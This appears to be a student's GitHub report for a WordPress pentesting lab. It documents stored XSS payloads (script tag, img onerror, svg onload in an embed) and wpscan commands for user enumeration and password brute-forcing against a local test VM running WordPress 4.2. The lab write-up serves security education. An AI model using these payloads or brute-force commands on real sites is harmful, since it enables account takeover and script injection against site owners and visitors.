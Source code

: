 # Project 7 - WordPress Pentesting

Time spent: 6 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID:  Authenticated stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br /> ![](CrossScriptingOne.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Create a post </li> <li>Add the following to the post : <script type="text/javascript">alert("Hiiii");</script> </li> <li> Publish </li> <li>Visit Post </li> </ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/post.php)
2. (Required) Vulnerability Name or ID : Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br />
    ![](EramCrossSiteScriptingFour.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Upload a Image </li> <li>Add the following to the title of the image : Minnie<img src="#" onerror="alert('Hi its Minnie')";/>.jpg </li><li>Visit the page </li></ul>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)
3. (Required) Vulnerability Name or ID : Password Brute Force Attack
  - [ ] Summary:
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: <br />
     ![](EramUserEnumerating.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Install worlists and get rockyou-75.txt. Make sure rockyou-75.txt is in /home/kali/Desktop/rockyou-75.txt</li> 
  ```
      $ apt-get install wordlists
      $ cd \usr\share\wordlists\
      $ gzip -d rockyou-75.txt.gz
    ```
  <li> Get Api token from https://wpvulndb.com/ <li>
  <li> use token to find users
  ```
      $ wpscan --url wpdistillery.vm -e u vp --api-token <token name>
    ```
  </li>
  <li> use token to find password
  ```
      $ wpscan --url wpdistillery.vm -e u --passwords /home/kali/Desktop/rockyou-75.txt --api-token <token name>
  ```
  </li>
</ul>
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-login.php)
4. (Optional) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough:  <br />
  ![](EramCrossSiteScriptingTwo.gif)
  - [ ] Steps to recreate: <br /><ul><li>Create a new page <li> <Add a youtube embed url such as : [embed src='https://youtube.com/embed/minnie\x3csvg onload=alert(12)\x3e'][/embed]</li><li>Publish</li><li>View Page</li></ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Setting up the project was the most difficult. Error messages while setting up where not descriptive so had to try out different solutions to issues.

## License

    Copyright 2020 Eram Manasia

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
